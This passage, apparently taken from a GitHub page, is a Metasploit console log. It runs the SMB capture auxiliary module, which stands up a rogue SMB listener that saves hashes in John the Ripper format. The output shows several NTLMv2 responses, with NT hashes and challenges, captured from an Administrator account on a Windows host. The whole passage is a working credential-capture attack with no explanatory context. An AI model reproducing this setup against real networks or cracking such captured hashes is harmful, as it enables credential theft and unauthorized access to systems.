 Server:
```
msf5 > use auxiliary/server/capture/smb
msf5 auxiliary(server/capture/smb) > set johnpwfile /tmp/john
johnpwfile => /tmp/john
msf5 auxiliary(server/capture/smb) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/smb) > 
[*] Started service listener on 0.0.0.0:445 
[*] Server started.
[*] SMB Captured - 2019-09-26 14:01:37 -0400
NTLMv2 Response Captured from 2.2.2.2:49160 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:957c33ac7e9d7bf4459ddb2c65109aaa 
NT_CLIENT_CHALLENGE:01010000000000007a7e22719474d5014eb86a13abf5f61000000000020000000000000000000000
[*] SMB Captured - 2019-09-26 14:01:37 -0400
NTLMv2 Response Captured from 2.2.2.2:49160 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:e4411aead169063032e832539864b4ff 
NT_CLIENT_CHALLENGE:0101000000000000fd0e3f719474d501ed3acc4801283dee00000000020000000000000000000000
[*] SMB Captured - 2019-09-26 14:01:37 -0400
NTLMv2 Response Captured from 2.2.2.2:49160 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:f09d780a73410902dae21653cc9ef117 
NT_CLIENT_CHALLENGE:0101000000000000bed143719474d5015e71b1d1c6aba91800000000020000000000000000000000
[*] SMB Captured - 2019-09-26 14:01:37 -0400
NTLMv2 Response Captured from 2.2.2.2:49160 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:b9f84605b6cd0feb57c38f5d7251d5e0 
NT_CLIENT_CHALLENGE:01010000000000007f9448719474d50164270f62c422d35200000000020000000000000000000000
[*] SMB Captured - 2019-09-26 14:01:37 -0400
NTLMv2 Response Captured from 2.2.2.2:49160 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:a1f2d3c84c444368bea5cac47707faec 
NT_CLIENT_CHALLENGE:01010000000000003f574d719474d50197b541b568bd9d3600000000020000000000000000000000
[*] SMB Captured - 2019-09-26 14:01:37 -0400
NTLMv2 Response Captured from 2.2.2.2:49160 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:b895915d8c813c99512904bd1b84f2e2 
NT_CLIENT_CHALLENGE:0101000000000000001a52719474d501b8fa9400bb1ff22f00000000020000000000000000000000
[*] SMB Captured - 2019-09-26 14:01:37 -0400
NTLMv2 Response Captured from 2.2.2.2:49160 - 2.2.2.2
USER:Administrator DOMAIN:WIN-O712LQK2K69 OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:309c3abcd382e8541a811a8d9af66002 
```